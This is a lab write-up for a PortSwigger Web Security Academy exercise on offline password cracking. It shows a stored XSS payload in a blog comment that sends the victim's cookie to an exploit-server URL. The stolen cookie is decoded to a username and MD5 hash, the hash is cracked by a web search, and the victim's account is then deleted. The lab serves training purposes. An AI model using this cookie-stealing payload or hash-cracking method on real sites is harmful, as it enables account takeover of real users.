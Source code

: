 # Offline password cracking

## Description

[This lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking) stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality.

## Reproduction and proof of concept

1. With Burp running, use your own account to investigate the "Stay logged in" functionality. Notice that the ``stay-logged-in`` cookie is Base64 encoded.
2. In the Proxy > HTTP history tab, go to the Response to your login request and highlight the ``stay-logged-in`` cookie, to see that it is constructed as follows:

```
username+':'+md5HashOfPassword
```

3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS.
4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:

```
<script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>
```

6. On the exploit server, open the access log. There should be a GET request from the victim containing their ``stay-logged-in`` cookie.
7. Decode the cookie in Burp Decoder. The result will be:

```
carlos:26323c16d5f4dabff3bb136f2460a943
```

8. Copy the hash and paste it into a search engine. This will reveal that the password is ``onceuponatime``.
9. Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.

## Exploitability

An attacker will need to obtain Carlos's `stay-logged-in` cookie and use it to crack his password;then log in as `carlos` and delete his account from the "My account" page. 
